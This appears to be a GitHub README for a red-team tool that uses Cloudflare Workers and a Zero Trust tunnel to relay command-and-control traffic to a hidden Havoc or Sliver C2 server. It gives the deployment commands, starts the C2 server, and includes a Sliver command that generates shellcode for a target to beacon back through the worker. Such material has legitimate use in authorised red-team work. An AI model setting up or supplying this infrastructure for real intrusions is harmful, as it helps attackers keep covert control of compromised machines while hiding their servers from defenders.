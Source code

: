 # Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.

![good old diagram](assets/0.jpg)

Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, Gateway workers concept, multiple redirectors for multiples C2 frameworks, integrate with KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## Things you will need

- A running C2 framework. I am using [Havoc](https://github.com/HavocFramework/Havoc) for this demo.
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.
- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy and setup secrets but you can also do it use github actions for example.

## In this example

- C2 Listener hostname: `https://listener.demo.com/`
- Worker endpoint: `https://worker.demo.com/`
- Custom header value: `Awesome-Header`
- see the file `demo-profile.yaotl` for the profile used in this demo.

Note: this a simple demo, you should not use the same domain between worker and ZT.

### Secrets to setup

- SERVICE_CF_ID (Cloudflare Service Auth ID to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- SERVICE_CF_SECRET (Cloudflare Service Auth Secret to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- CUSTOM_HEADER (custom header value use in workers)
- WORKER_ENDPOINT (worker endpoint)
- LISTEN_ENDPOINT (C2 listener hostname - hostname bind with cloudflared tunnel) - see screenshot `6.jpg` in assets folder.

## Overview Installation

- Clone/fork this repo.
- Modify the file `demo-profile.yaotl` to match your setup and use it on your C2 server.
- Modify worker config file - `./workers/demo-redirector-c2/wrangler.toml`.
- [Optional] Modify worker code `./workers/demo-redirector-c2/src/index.js`.
- Setup secrets.
- Deploy the worker.

### Install and Deploy

```bash
# clone the repo
git clone ...
cd Cloudflare-Redirector
# modify demo-profile.yaotl to match your setup
# modify wrangler.toml to match your setup
#
cd workers/demo-redirector-c2
# when using "wrangler secret put <KEY>", you will be prompt to enter the secret value
wrangler secret put SERVICE_CF_ID
wrangler secret put SERVICE_CF_SECRET
# wrangler secret put Awesome-Header
wrangler secret put CUSTOM_HEADER
# url format: https://worker.demo.com/
wrangler secret put WORKER_ENDPOINT
# url format: https://listener.demo.com/
wrangler secret put LISTEN_ENDPOINT
#
# modify src/index.js [optional]
#
# deploy
wrangler deploy
```

## After deployment

- Start C2 server with your modified profile.

```bash
# ex:
./havoc server --profile profiles/demo-profile.yaotl -v
```

- Generate new payload to execute on a target and execute.
- Receive callback.
- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder.

## Not sure about the Zero Trust part ?

Follow the screenshots in assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. Create application (self-hosted) rules to protect your listener (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## Sliver

```bash
# modify ~/.sliver/configs/http-c2.json (add header)

profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

## Todo

- probably need a better README file
- more stuff?

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [C5pider](https://twitter.com/C5pider) for Havoc.
- [Yack](https://yack.one).
